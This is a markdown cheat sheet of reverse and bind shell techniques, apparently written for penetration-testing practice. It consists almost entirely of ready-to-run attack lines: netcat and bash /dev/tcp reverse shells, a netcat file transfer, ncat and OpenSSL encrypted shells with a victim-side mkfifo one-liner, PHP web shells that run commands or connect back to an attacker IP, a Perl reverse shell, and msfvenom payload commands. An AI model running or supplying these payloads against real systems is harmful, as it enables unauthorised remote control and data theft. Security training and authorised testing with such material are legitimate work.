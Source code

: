 Bind / Reverse shell

# Always check FW from both side

## Shellerator roxx for a quick reverse shell 

---

## Send a file

```nc -nlvp 5555 > incoming.txt```
```nc -nv <ip> 5555 < filetosend.txt```

---

## Reverse shell nc traditional :

```nc -nlvp 5555```
```nc -nv <ip> 5555 -e /bin/bash```

- I had issues sometimes from windows to a linux, try ```nc -lvp``` instead of ```nc -nlvp```

---

## Bash reverse shell :

```bash -i > /dev/tcp/IP/PORT 2>&1 0>&1```

---

## Encrypted shell :

```
ncat --exec /bin/bash --allow <ip> -vnl 5555 --ssl
ncat -v <ip> 5555 --ssl
```

---

## With OpenSSL :

- Generate keys on the attacker box : ```openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes```

- Then start the listener : ```openssl s_server -quiet -key key.pem -cert cert.pem -port 5555```

- Victime : ```mkfifo /tmp/t; /bin/sh -i < /tmp/t 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:5555 > /tmp/t; rm /tmp/t```


---

## IIS

- Use .asp file or .aspx


--- 

## PHP 

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.156 LPORT=5555 -o drive.php

<?php $sock=fsockopen("10.11.0.156",5555);exec("/bin/sh -i <&3 >&3 2>&3");?>

<?php echo shell_exec($_GET['cmd']);?>

<?php system('cmd');?>

<?php echo shell_exec('bash -i > /dev/tcp/10.11.0.156/5555 2>&1 0>&1');?>


<?php ("bash -i > /dev/tcp/10.11.0.156/5555 0>&1 2>&1"):?>

<?php echo shell_exec("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'");?>

<?php exec("telnet 10.11.0.156 5555 | /bin/sh | telnet 10.11.0.156 5555");?>

<?php exec("exec /bin/sh 0</dev/tcp/10.11.0.156/5555 1>&0 2>&0");?>

<?php exec("php -r $s=fsockopen(10.11.0.156,5555);exec(/bin/sh -i <&3 >&3 2>&3);");?>
```	


--- 

## perl shell :

```
use Socket;$i="192.168.0.213";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```

---

## Javascript :

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f js_le -e generic/none
```
If you are attacking a Linux host:
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 CMD=/bin/bash -f js_le -e generic/none
```



